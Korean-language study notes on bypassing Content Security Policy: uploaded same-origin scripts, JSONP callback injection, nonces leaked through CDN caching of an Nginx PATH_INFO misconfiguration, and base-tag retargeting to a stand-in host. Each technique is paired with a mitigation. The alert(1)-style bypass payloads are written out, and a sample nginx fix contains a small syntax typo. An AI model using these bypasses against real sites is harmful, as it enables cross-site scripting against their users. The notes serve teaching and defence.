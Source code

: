 # CSP Bypass
⚠️ Content Security Policy(CSP)는 XSS를 방어하기 위한 훌륭한 방어책이지만, CSP 구문을 올바르지 않게 설정할 경우 이를 우회히여 허용되지 않은 출처에서 자원을 로드할 수 있는 방법들이 존재함

<br/><br/>

## CSP 우회: 신뢰하는 도메인에 업로드
* CSP에서 자원을 불러올 수 있도록 허용한 출처가 **파일 업로드 및 다운로드 기능을 제공**할 경우 출처에 스크립트와 같은 자원을 업로드한 뒤 다운로드 경로로 웹 페이지 자원을 포함시킬 수 있음
    + 외부 자원 업로드 예시
        ```html
        <!-- 스크립트 태그의 출처를 현재 페이지와 같은 출처(self)로 제한하는 Policy Directive -->
        <meta http-equiv="Content-Security-Policy" content="script-src 'self'">

        <!-- ... -->

        <!-- download_file.php의 id 값을 177742인 것을 다운로드 하고 있음 (download_file.php은 현재 페이지와 같은 출처에 위치함) → CSP 우회 성공 -->
        <h1>검색 결과: <script src="/download_file.php?id=177742"></script></h1>
        ```

<br/><br/>

## CSP 우회: JSONP API
* CSP에서 허용한 출처가 JSONP API를 지원할 경우 ```callback``` 파라미터에 원하는 스크립트를 삽입하여 공격이 가능함
    - JSONP API를 이용한 CSP 우회 예시
        + 웹 페이지에서 ```*.google.com```에서 온 출처만 허용한다면, 구글에서 JSONP API를 지원하는 서버(Google Account 서비스)를 찾아 아래와 같이 ```callback```에 원하는 스크립트를 삽입할 수 있음
            ```
            https://accounts.google.com/o/oauth2/revoke?callback=alert(1);
            ```

<br/>

* JSONP API를 이용한 CSP 우회를 방지하기 위한 방법
    - JSONP API를 제공하는 서비스는 콜백 이름에 식별자를 제외한 문자를 거부함으로써 이를 추가적으로 방어할 수 있음
        + JSONP API의 문자 검사 예시
            ```html
            <!-- 스크립트 태그의 출처를 https://*.google.com/으로 제한하는 Policy Directive -->
            <meta http-equiv="Content-Security-Policy" content="script-src 'https://*.google.com/'">

            <!-- ... -->

            <!-- JSONP API를 지원하는 Google Account 서버에서 callback에 스크립트를 삽입해 CSP 우회를 시도함 -->
            <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>>
            ```
            - JSONP API가 문자 검사를 할 경우의 결과: 유효하지 않은 인자를 주었다는 오류(error) 메시지를 반환함
                ```
                alert(1);({
                    "error": {
                        "code": 400,
                        "message": "Invalid JSONP callback name: 'alert(1)'; only alphabet, number, '_', '$', '.', '[', and ']' are allowed.",
                        "status": "INVALID_ARGUMENT"
                    }
                });
                ```
    - 가능한 경우 JSONP보다는 **CORS를 지원하는 API를 사용하는 것**이 좋음

<br/><br/>

## CSP 우회: nonce 예측 가능
* CSP의 ```nonce```를 이용하면 도메인이나 해시 등을 지정하지 않아도 **공격자가 예측할 수 없는 ```nonce``` 값이 태그 속성에 존재할 것을 요구함**으로써 XSS 공격을 방어할 수 있음
    - ```nonce``` 이용 시 주의해야 하는 사항
        | 📌 주의사항 | 설명 |
        |---|------|
        | ```nonce```가 공격자가 취득하거나 <br/>**예측할 수 없는** 값이어야 함 | - ```nonce```를 이용한 방어를 효과적으로 사용하기 위한 전제 조건 <br/> &nbsp;&nbsp;&nbsp;&nbsp; - ```nonce``` 값은 보통 요청마다 새로 생성되며, 공격자가 예측할 수 없는 난숫값임 <br/> &nbsp;&nbsp;&nbsp;&nbsp; - 보안 상 안전한 의사 난수 생성기(CSPRNG)를 사용하여 ```nonce``` 값을 생성해야 함 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - ⚠️ **```nonce```를 생성하는 알고리즘이 취약**하여 값을 예측할 수 있으면 ```nonce``` 값을 유추하여 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;악성 스크립트를 웹 사이트에 삽입할 수 있음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; - ⚠️ 현재 시각 등 **공격자가 알 수 있는 정보를 바탕으로 ```nonce``` 값을 생성**하는 것은 의미가 없음 |
        | ```nonce``` 값을 담고 있는 <br/> HTTP 헤더 또는 ```<meta>``` 태그가 <br/> 캐싱되지 않는지 주의해야 함 | ⚠️ PHP/CGI 계열의 스크립팅을 사용할 때에는 스크립트들이 ```/index.php/style.css```처럼 **뒤에<br/> 추가적인 경로를 붙여 접근될 수 있기 때문**에 특히 주의히야 함 <br/> &nbsp;&nbsp; - **캐시 서버가 확장자를 기반으로 캐시 여부를 판단**할 경우 ```.css```는 일반적으로 정적 파일이기 때문에 <br/> &nbsp;&nbsp;&nbsp;&nbsp; 동적 컨텐츠로 간주하지 않아 캐시에 저장할 수 있음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; → 캐시가 만료될 때까지 요청 시마다 같은 ```nonce```로 들어와 이를 통해 ```nonce```를 획득할 수 있음 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; → ⚠️ 콘텐츠가 캐시되어 서버 측 XSS는 발생하지 않지만, DOM XSS 등 **클라이언트 측에서 일어날 <br/> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;수 있는 공격에 취약**해지게 됨 |

<br/>

* 예시: Nginx와 PHP FastCGI SAPI(```php-fpm```) 사용
    ```
    location ~ \.php {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.2-fpm.sock;
    }
    ```
    - 취약한 ```snippets/fastcgi-php.conf```의 내용 일부 (Nginx 설정)
        ```
        # regex to split $uri to $fastcgi_script_name and $fastcgi_path
        fastcgi_split_path_info ^(.+\.php)(/.+)$;

        # Check that the PHP script exists before passing it
        try_files $fastcgi_script_name =404;

        # Bypass the fact that try_files resets $fastcgi_path_info
        # see: http://trac.nginx.org/nginx/ticket/321
        set $path_info $fastcgi_path_info;
        fastcgi_param PATH_INFO $path_info;

        fastcgi_index index.php;
        include fastcgi.conf;
        ```
        + 공격 방법
            | 순서 | 설명 |
            |---|------|
            | 01 | ```/dom_xss_vulnerable.php/style.css```의 주소로 접근하면 ```dom_xss_vulnerable.php``` 파일이 실행됨 |
            | 02 | 파일 실행 결과 ```nonce```가 ```<meta https-equiv="Content-Security-Policy" content="...nonce...">``` 태그로 출력됨 |
            | 03 | CDN(Content Delivery Network)은 보통 CSS, 스크립트 등 정적 파일을 캐싱함 <br/> &nbsp;&nbsp; → ⚠️ CDN에 의해 ```<meta>``` 태그로 출력된 ```nonce```가 캐싱됨 |
            | 04 | DOM XSS에 취약한 페이지의 ```nonce``` 값이 고정되어 공격자는 <br/> ```<script nonce="{고정된 nonce 값}">alert(1);</script>```과 같은 마크업을 사용하여 공격할 수 있음 |
    - 해결 방안
        + ```PATH_INFO``` 기능을 사용하지 않는 경우 ```location ~ \.php$```처럼 URL의 끝부분이 ```.php```일 때만 FastCGI로 넘어가게 수정되어야 함
        + URL에 ```a/b.php/c/d.php```와 같이 ```.php```가 중복 사용될 때를 대비하여 **fastcgi-php.conf 스니펫을 사용하지 않고** 아래와 같이 변경해야 함
            ```
            location ~ \.php$ {
                try_files $uri = 404;
                fastcgi_index index.php;
                include fastcgi.conf;
                fastcgi_pass unix;/run/php/php7.2-fpm.sock;
            }
            ```

<br/><br/>

## CSP 우회: base-uri 미지정
* HTML ```<base>``` 태그
    - HTML 하이퍼링크에서 호스트 주소 없이 경로 지정 시 브라우저는 현재 문서를 기준으로 주소를 해석함 → **```<base>``` 태그로 경로가 해석되는 기준점을 변경할 수 있음**
    - ```<a>```, ```<form>``` 등의 ```target``` 속성의 기본값을 지정함

<br/>

* ```<base>``` 태그를 이용한 공격 과정와 이를 방어하기 위한 정책 설정
    - 공격 과정
        | 순서 | 설명 |
        |---|------|
        | 01 | 공격자가 ```<base href="https://malice.test/xss-proxy/">```와 같은 마크업을 삽입함 |
        | 02 | 이후 상대 경로를 사용하는 URL들은 **본래 의도한 위치가 아닌 공격자의 서버에 위치한 자원**을 가리키게 됨 <br/> &nbsp;&nbsp; → 공격자는 이를 통해 임의의 스크립트 등을 삽입할 수 있게 됨 |
    - ```<base>``` 태그의 ```href``` 속성을 사용하지 않는 페이지의 경우 아래의 CSP 정책 지시문을 이용해 이러한 공격을 방어할 수 있음
        ```
        Content-Security-Policy: base-uri 'none'
        ```
        + ```<base>``` 태그의 URL은 어느 것도 허용하지 않도록(none) 하는 Policy Directive

<br/>

* **Nonce Retargeting**
    - **```nonce``` CSP 구문을 지정했지만 ```base-uri``` CSP 구문을 지정하지 않은 경우** ```base``` 태그를 이용하여 임의 자원을 로드할 수 있음
    - 예시: 페이지의 임의 마크업을 삽입할 수 있는 취약점이 있지만, ```nonce``` CSP 구문으로 인해 스크립트를 삽입할 수 없는 경우
        ```html
        <!-- base 태그로 이후 상대 경로를 지정한 URL들은 https://matlice.test에 위치한 자원을 가리키게 됨 -->
        <base href="https://malice.test">

        <!-- jquery.js는 base 태그로 인해 https://malice.test/jquery.js를 가리킴 -->
        <script src="/jquery.js" nonce=NONCE>
        ```

<br/>

* ⚠️ **```base-uri``` 지시문을 임의로 지정하지 않는 이상 ```default``` 초기값이 존재하지 않음**
    - 웹 서비스를 개발할 때에는 **반드시 ```base-uri``` 지시문을 정의해 주어야 함**


<br/><br/><br/><br/>
### 🔖 출처
* [드림핵 Web Hacking Advanced - Client Side] 📌 [Exploit Tech: CSP Bypass](https://dreamhack.io/lecture/courses/322)
